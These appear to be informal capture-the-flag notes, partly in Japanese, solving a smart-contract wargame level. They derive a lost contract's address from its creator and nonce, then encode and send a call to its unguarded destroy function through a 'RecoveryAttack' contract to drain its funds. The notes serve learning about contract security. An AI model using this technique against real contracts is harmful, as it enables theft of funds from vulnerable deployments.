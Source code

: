 *Important
//is gonna give you the smart contract address that you're looking for so 
//this is all computed deterministically 
address = rightmost_20_bytes(keccak(RLP(sender address, nonce)))
//nonce creates or generated this simple token contract and we're passing it to the rlp encoding function 

>contract.address
'0x0A4a5914d6a3F59863639EdE0b3d8f5B6E8c9473'

//secret addressを抜粋してみる
>web3.utils.soliditySha3("0xd6","0x94","0x0A4a5914d6a3F59863639EdE0b3d8f5B6E8c9473","0x01") //rlp,rlp, sender address, nonce
'0xa01cfea9bdb7e3e4b516448a200e3409bef9910e02454a6a70f04bd8ac6acc4e' //40digits(20bits) is our contracts address from right side 

this is the simpleToken address (secret address)
200e3409bef9910e02454a6a70f04bd8ac6acc4e

//secret address (EtherScanで確認済み)
0x200e3409bef9910e02454A6a70f04bD8aC6ACC4E

*anything beginning with “0x” simply means the value is in hexadecimal format. 


//encode a function call to the destroy function. Its going to pass my players address"_to"
>data = web3.eth.abi.encodeFunctionCall ({
	name: 'destroy',
	type: 'function',
	inputs: [{
		type: 'address',
		name: '_to'
	}]
}, [player]);

'0x00f55d9d000000000000000000000000f6ea8e869c68362ec2fa1b2159fe459d6d8f30f5'

//playerが自分になったことを確認
>player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

>await web3.eth.sendTransaction ({
	to: "", //<insert the address of the lost contract>
	from: player,
	data: data
})//Deploy on Remix 

[block:10931562 txIndex:2]from: 0xF6e...f30F5to: RecoveryAttack.(constructor)value: 0 weidata: 0x608...f0033logs: 0hash: 0x632...16e03

//copy the secret address into attack 
[block:10931570 txIndex:8]from: 0xF6e...f30F5to: RecoveryAttack.attack(address) 0x51F...D4AEAvalue: 0 weidata: 0xd01...acc4elogs: 0hash: 0x34d...e45b1

//check secret address all funds into my wallet!!